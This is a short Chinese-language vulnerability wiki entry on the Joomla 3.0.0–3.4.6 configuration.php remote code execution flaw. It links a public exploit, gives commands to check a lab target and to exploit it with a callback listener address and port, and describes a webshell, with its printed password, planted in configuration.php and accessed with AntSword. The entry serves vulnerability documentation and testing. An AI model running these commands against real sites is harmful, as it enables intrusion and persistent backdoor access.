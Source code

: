 Joomla 3.4.6 configuration.php 远程代码执行
===========================================

一、漏洞简介
------------

Joomla 3.4.6 - \'configuration.php\' Remote Code Execution

二、影响范围
------------

Joomla 3.0.0 至 3.4.6

三、复现过程
------------

https://github.com/ianxtianxt/Joomla-3.4.6\-\--configuration.php-Remote-Code-Execution

### 脚本验证

验证：

    python3 test.py -t http://127.0.0.1:8080/

![](/Users/aresx/Documents/VulWiki/.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId25.png)

显示"Vulnerable"证明存在漏洞

利用：

    python3 test.py -t http://127.0.0.1:8080/ --exploit --lhost 192.168.31.126 --lport 2121

![](/Users/aresx/Documents/VulWiki/.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId26.png)

执行成功

并在"configuration.php"写入**随机密码**的一句话木马![](/Users/aresx/Documents/VulWiki/.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId27.png)上图的密码为：kyevgbxjmwivdvegohfzwuukuzswxqquthlrsollpxzgiifumi

蚁剑链接测试

![](/Users/aresx/Documents/VulWiki/.resource/Joomla3.4.6-'configuration.php'RemoteCodeExecution/media/rId28.png)
